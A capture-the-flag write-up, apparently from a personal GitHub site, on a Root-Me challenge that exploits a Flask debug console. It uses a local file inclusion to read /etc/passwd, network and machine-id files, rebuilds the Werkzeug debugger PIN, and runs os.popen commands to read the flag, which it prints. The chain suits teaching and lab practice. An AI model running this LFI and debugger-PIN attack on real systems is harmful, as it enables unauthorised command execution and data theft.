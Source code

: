 ```yaml
---
layout: default
title: Flask-Development-server
---
```


Here I saw this interesting article [hacking flask applications](https://medium.com/swlh/hacking-flask-applications-939eae4bffed), which talks about `debug` mode which shouldn't be in production.

Saw, I went to `http://challenge01.root-me.org:59085/console`, However, we can see we need to supply PIN.

Then, I saw this article [hacking the debugging pin of flask](https://b33pl0g1c.medium.com/hacking-the-debugging-pin-of-a-flask-application-7364794c4948), which talks about how to regenerate the PIN.

This script should regenerate the PIN, however, we need to supply input that we need to achieve somehow.
```py
{% include_relative scripts/Flask-Development-server_pin_cracker.py %}
```

Then, I saw this `LFI` here: `http://challenge01.root-me.org:59085/services?search=/etc/passwd`

We need to achieve several things:
1. username of who started the flask app
2. modname of the Flask.app (it is always `flask.app`)
3. `getattr(app, '__name__', getattr (app .__ class__, '__name__'))` is `Flask`
4. the `getattr(mod, '__file__', None)` is the absolute path `app.py` in the flask directory. 
5. the MAC address of the current computer
6. the machine-id

Let's achieve them!

### 1. username of who started the flask app

when checking `/etc/passwd` we get:
```
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin web-app:x:1000:1000:Linux User,,,:/home/web-app:/bin/ash
```
Here, we can see the Linux user: `web-app`, this is probably the user who started the app.

### 2. modname of the Flask.app (it is always `flask.app`)

Okay, this is always `flask.app`

### 3. `getattr(app ...)`

This is `Flask`

### 4. the `getattr(mod, ...)` is the absolute path `app.py` in the flask directory.

We can see from the http-headers that it uses `Python/3.11.9`

I asked chatGPT, and this is what I got:
### Global vs. User-specific installation:

- **Global installation**: When Flask is installed globally (for all users or system-wide), it would usually reside in `/usr/local/lib/pythonX.X/site-packages/` (for example, `/usr/local/lib/python3.11/site-packages/`).
  
- **User-specific installation**: If you install Flask **just for your user** (using `pip install --user flask`), it will be placed in your **user's `.local` folder** under `~/.local/lib/python3.X/site-packages/`.

  Flask can end up in the **user's directory** (`~/.local/`) if you used `--user` during installation or if you're in a virtual environment. This is why the path might not be in `/usr/local/lib/python3.X/site-packages/`.

### Virtual Environments:

- If you're using a **virtual environment**, the location of `app.py` might be in a path like: `/path/to/your/virtualenv/lib/python3.X/site-packages/flask/app.py`.

Let's try `global`:
```
/usr/local/lib/python3.11/site-packages/flask/app.py
```
And we get: `[Errno 2] No such file or directory: '/usr/local/lib/python3.11/site-packages/flask/app.py'`

Okay, let's try `.local`, ur user is `web-app`.
```
/home/web-app/.local/lib/python3.11/site-packages/flask/app.py
```

And we get the file!
So, the absolute path is:
```
/home/web-app/.local/lib/python3.11/site-packages/flask/app.py
```

### 5. the MAC address of the current computer

To get the MAC address, find out the `/proc/net/arp` device id and find the mac address by typing the `/sys/class/net/<device-id>/address`.

when typing `/proc/net/arp` we get:
```
IP address HW type Flags HW address Mask Device 172.16.0.1 0x1 0x2 02:42:40:04:82:d0 * eth0
```

So, devide id is `eth0`, and then `/sys/class/net/eth0/address` gives us the MAC address, which is:
```
02:42:ac:10:00:26
```

### 6. the machine-id

As I saw here, [werkzeug pentesting](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/werkzeug.html):
Concatenates data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (`/`).

This is what we got for `/proc/sys/kernel/random/boot_id`
```
ec81ef37-14b2-4201-827d-f0811d43866a
```
I asked chatGPT for common places that I can find the machine-id, This is what I got:
```
/etc/machine-id
/proc/sys/kernel/random/boot_id
```

When fetching this `/proc/self/cgroup` we got:
```
ec81ef37-14b2-4201-827d-f0811d43866a
```

## Attack

So now, let's insert all to the code, and we get this PIN:
```
754-279-725
```

Now, we can simply execute commands like this:
```py
__import__('os').popen('whoami').read()
```

So, first we want `ls -a`:
```py
__import__('os').popen('ls -a').read()
```

Then, we simply execute `cat 1b2cba8365de790bbb1e3dabcacdede935745e393288fd48f64b985cb52dad11.txt`:
```py
__import__('os').popen('cat 1b2cba8365de790bbb1e3dabcacdede935745e393288fd48f64b985cb52dad11.txt').read()
```

And getting:
`RM{B3_C4refull_w1th_fl4sk_d3bug}`

**Flag:** **_`RM{B3_C4refull_w1th_fl4sk_d3bug}`_**
